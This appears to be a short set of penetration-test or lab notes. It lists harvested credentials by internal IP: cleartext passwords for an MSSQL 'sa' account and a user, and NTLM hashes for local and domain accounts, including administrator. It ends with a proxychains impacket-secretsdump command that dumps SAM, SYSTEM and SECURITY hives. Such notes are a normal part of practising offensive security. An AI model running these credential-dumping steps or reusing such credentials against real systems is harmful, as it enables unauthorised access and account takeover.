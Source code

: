 192.168.x.121;mssql,sa:WhileChirpTuesday218
192.168.x.121;user,joe,Flowers1
172.16.x.11;user,daisy,abf36048c1cf88f5603381c5128feb8e
172.16.x.11;user,toad,5be63a865b65349851c1f11a067a3068 
172.16.x.11;user,wario,fdf36048c1cf88f5630381c5e38feb8e
172.16.x.11;user,goomba,8e9e1516818ce4e54247e71e71b5f436 
172.16.x.11;user,administrator,f1014ac49bae005ee3ece5f47547d185
172.16.x.11;domain,administrator,a7c5480e8c1ef0ffec54e99275e6e0f7
172.16.x.11;domain,yoshi,cd21be418f01f5591ac8df1fdeaa54b6 
172.16.x.11;domain,wario,b82706aff8acf56b6c325a6c2d8c338a
172.16.x.11;domain,joe,464f388c3fe52a0fa0a6c8926d62059c
proxychains4 impacket-secretsdump -system system -sam sam -security security joe@172.16.244.11